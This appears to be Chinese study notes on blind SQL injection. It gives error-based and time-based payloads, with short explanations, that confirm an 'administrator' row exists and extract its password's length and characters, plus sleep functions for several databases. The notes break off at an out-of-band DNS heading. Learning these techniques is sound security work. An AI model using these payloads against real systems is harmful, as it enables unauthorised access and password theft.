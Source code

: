 '|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
SQL：先执行 FROM users WHERE username='administrator' 判断表中是否存在
若存在 则执行 判断语句
再利用CASE故意执行错误语句 报错

#### 判断内容长度

>'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>1)||'
>判断字符是否大于1 若程序报错 则说明大于1
>

#### 判断内容

>'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a')||'
>判断第一个字符是否是’a 若程序报错 则说明是a

### 触发时间延迟SQL盲注

#### 判断是否存在SQL

>' || SLEEP(10)--
>如果目标延迟10秒反应则说明存在

*备注*
甲骨文&emsp;&emsp;&emsp;&emsp;dbms_pipe.receive_message(('a'),10)
微软&emsp;&emsp;&emsp;&emsp;&emsp;WAITFOR DELAY '0:0:10'
PostgreSQL&emsp;&emsp;SELECT pg_sleep(10)
MySQL&emsp;&emsp;&emsp;&emsp;SELECT SLEEP(10)

#### 判断是否存在表
构造判断 时间延迟语句
>' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END)--
>若存在则系统会延迟10秒
>' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--

#### 判断内容长度

>' || (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--
>若字符串长度大于1 则系统延迟10秒

#### 判断内容

>' || (SELECT CASE WHEN (username='administrator' AND SUBSTR(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--
>若第一字符为 a 则系统延迟10秒

### 外带（OAST）技术SQL盲注

#### 生成DNS
